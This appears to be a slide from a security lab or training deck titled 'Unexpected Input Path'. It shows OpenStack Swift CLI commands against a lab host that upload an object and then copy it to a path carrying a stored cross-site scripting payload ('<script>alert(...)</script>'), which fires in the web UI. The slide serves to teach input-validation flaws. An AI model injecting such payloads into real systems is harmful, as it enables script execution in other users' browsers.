

Unexpected Input Path
# Use REST API to upload, not just UI
swift –insecure
-A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass upload fileuploads .\sample_object.txt
# (Take a quick look in the web UI now)
# powershell escaped ""
swift –insecure
-A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert(""you been pwned"")</script>forme'